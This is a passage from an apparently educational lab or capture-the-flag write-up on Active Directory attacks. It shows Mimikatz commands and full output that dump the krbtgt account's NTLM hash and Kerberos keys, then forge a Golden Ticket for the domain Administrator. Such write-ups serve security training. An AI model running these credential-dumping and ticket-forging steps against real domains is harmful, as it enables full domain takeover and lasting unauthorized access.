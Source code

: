 ## Task 5 - Mimikatz

Now we can try creating a Golden Ticket, first we need to gather information for the krgtgt user:

```text
mimikatz # lsadump::lsa /inject /name:krbtgt

Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166
RID  : 000001f6 (502)
User : krbtgt
 * Primary
    NTLM : 5508500012cc005cf7082a9a89ebdfdf
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

 <<SNIP>>

  * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 64ef5d43922f3b5d

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d
      aes128_hmac       (4096) : 7eb35bddd529c0614e5ad9db4c798066
      des_cbc_md5       (4096) : 64ef5d43922f3b5d

 * NTLM-Strong-NTOWF
    Random Value : 666caaaaf30081f30211bd7fa445fec4
```

With the information dumped above we can create our ticket:

```text
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500
User      : Administrator
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-849420856-2351964222-986696166
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt
Lifetime  : 6/9/2020 1:06:25 PM ; 6/7/2030 1:06:25 PM ; 6/7/2030 1:06:25 PM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```
